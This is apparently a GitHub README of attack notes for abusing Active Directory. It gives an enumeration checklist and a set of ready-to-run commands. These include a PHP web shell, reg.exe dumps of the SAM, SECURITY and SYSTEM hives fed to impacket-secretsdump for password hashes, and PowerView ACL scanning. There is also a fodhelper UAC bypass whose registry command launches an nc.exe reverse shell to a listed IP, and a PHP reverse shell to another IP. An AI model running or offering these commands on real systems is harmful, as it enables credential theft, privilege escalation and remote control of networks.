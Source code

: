 # Active Directory Abuse
A collection of notes for exploiting and abusing Active Directory environments.

## What have you got?
- [Nothing](steps/no-credentials.md)
- [Username](steps/got-username.md)
- [Credentials](steps/got-credentials.md)
- [Hashes](steps/cracking-hashes.md)
- [Administrator](steps/got-administrator.md)

### Quick Brain Dump
- Try RPC null authentication (`enumdomusers`, `querydispfinfo`)
- List SMB shares
- LDAP password attributes (`ldapsearch`)
- GetUserSPNs
- GetNPUsers
- Check SMB after finding credentials (`crackmapexec`)
- Bloodhound = Lord and Saviour
- Check Program Files
- Check Services using PowerUp.ps1

### Other Quick Commands
```php
<?php system($_GET['cmd']); ?>
```

```powershell
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL -outputfile hashes/hashes
```

PowerView enumeration for interesting rights on domain object

```powershell
Import-Module PowerView.ps1
Invoke-ACLScanner
```

UAC Bypass

```text
BUILTIN\Administrators
Mandatory Label\Medium Mandatory Level
```

```powershell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command  
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v
DelegateExecute /t
REG_SZ REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Users\someone\Desktop\nc.exe 192.168.119.149 9001 -e cmd.exe" /f

fodhelper.exe
```

PHP Shell

```php
<?php $sock=fsockopen("10.10.16.2",9002);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```